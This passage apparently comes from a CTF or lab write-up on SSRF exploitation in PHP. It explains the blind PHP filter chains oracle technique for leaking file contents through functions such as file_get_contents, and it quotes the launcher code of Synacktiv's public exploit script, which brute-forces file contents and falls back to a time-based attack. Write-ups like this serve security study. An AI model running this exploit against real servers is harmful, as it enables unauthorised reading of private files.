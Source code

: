 That’s SSRF exploitation.

#### Filter Chains Oracle POC

The blind filter chains technique was made popular in a blog post from Synacktiv, [PHP filter chains: file read from error-based oracle](https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle), which is built on a technique from a challenge in the DownUnder CTF 2022.

The attack uses PHP filer chains to determine the contents of a file when the attacker can provide a URL that is passed to `file`, `hash_file`, `file_get_contents`, or `copy`. Typically these calls don’t print the data returned from them.

There is also a [Python script POC](https://github.com/synacktiv/php_filter_chains_oracle_exploit) available for use. While it’s always a good idea to read and understand POCs before just running them, it’s especially true here as I’ll have to modify the script to so that it sends the URL in a base64-encoded image tag.

The [main script](https://github.com/synacktiv/php_filter_chains_oracle_exploit/blob/main/filters_chain_oracle_exploit.py), `filters_chain_oracle_exploit.py`, is mostly handling passed in args before eventually using `Requestor` and `RequestorBruteforcer` ([source](https://github.com/synacktiv/php_filter_chains_oracle_exploit/blob/main/filters_chain_oracle/core/requestor.py)) objects to perform the attacks:

```

        # Attack launcher
        self.requestor = Requestor(args.file, args.target, args.parameter, data, headers, verb, in_chain, args.proxy, time_based_attack, delay, json_input, match)
        self.bruteforcer = RequestorBruteforcer(self.requestor, offset)
        signal.signal(signal.SIGINT, self.signal_handler)

        # Auto fallback to time based attack

        self.bruteforcer.bruteforce()

        # Result parsing
        if self.bruteforcer.base64:
            print("[+] File {} leak is finished!".format(self.requestor.file_to_leak))
            print(self.bruteforcer.base64)
            print(self.bruteforcer.data)
            if self.log_file:
                self.log_in_file("# The following data was leaked from {} from the file {}\n{}\n".format(self.requestor.target, self.requestor.file_to_leak, self.bruteforcer.data.decode("utf-8")))
            exit()
        else:
            print("[-] File {} is either empty, or the exploit did not work :(".format(self.requestor.file_to_leak))
            time_based_attack = 1
            print("[*] Auto fallback to time based attack")
            self.requestor = Requestor(args.file, args.target, args.parameter, data, headers, verb, in_chain, args.proxy, time_based_attack, delay, json_input, match)
            self.bruteforcer = RequestorBruteforcer(self.requestor, offset)
            self.bruteforcer.bruteforce()
        
        if verb == Verb.GET:
            print("[*] You passed your payload on a GET parameter, the leak might be partial! (~135 chars max by default)")
        
        print(self.bruteforcer.base64)
        print(self.bruteforcer.data)

```
